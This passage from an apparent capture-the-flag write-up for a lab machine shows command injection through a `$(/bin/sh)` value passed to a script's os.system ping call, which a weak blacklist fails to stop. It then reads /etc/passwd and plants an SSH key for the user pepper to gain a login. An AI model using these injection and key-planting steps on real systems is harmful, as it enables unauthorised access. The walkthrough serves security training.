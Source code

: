 Looking at the code above, I noticed the `os.system('ping ' + command)` line.
A few lines above, there is also a blacklist for shell syntax which didn't have the `$`, `(`, `)` characters.
This meant that I could use shell interpolation and pass a value to `command` like `$(/bin/bash)` to invoke a shell as the `pepper` user.

```none
www-data@jarvis:/var/www/Admin-Utilities$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es

***********************************************

Enter an IP: $(/bin/sh)
id
whoami
cat /etc/passwd
cat /etc/passwd > /tmp/passwd-test
www-data@jarvis:/var/www/Admin-Utilities$ ls -l /tmp
total 4
-rw-r--r-- 1 pepper pepper 1434 Sep 23 20:10 passwd-test
```

Notice how running bash from that shell didn't write any visible results to my console.
However, I noticed that I could still write files as the `pepper` user, so I ended up scripting something that will generate an ssh key, make it world-readable and copy it to the /tmp directory. Note that a better approach would have been to invoke a netcat reverse shell instead.

I ran the commands from the following script and copied the `id_rsa` private key to my Kali machine to login as the `pepper` user: 

```bash
mkdir -p /home/pepper/.ssh
ssh-keygen -b 2048 -t rsa -f /home/pepper/.ssh/id_rsa_r0kit -q -N ""
cat /home/pepper/.ssh/id_rsa_r0kit.pub >> /home/pepper/.ssh/authorized_keys
chmod -R 700 /home/pepper/.ssh/
cp /home/pepper/.ssh/id_rsa_r0kit /tmp/pepper.id_rsa
chmod 744 /tmp/pepper.id_rsa_r0kit
```

The script above generates an SSH key pair without prompt and modifies the permissions on the keys to make SSHd happy.
Finally, the private key was copied to the /tmp directory and its permissions were changed to world-readable so that the `www-data` user can read them.

**NOTE: Generally speaking, avoid doing this on real-world pentest engagements because it makes more work for you to clean up and makes it significantly easier for others to compromise the user.**

At this point, I was able to login as the `pepper` user and grab their flag:
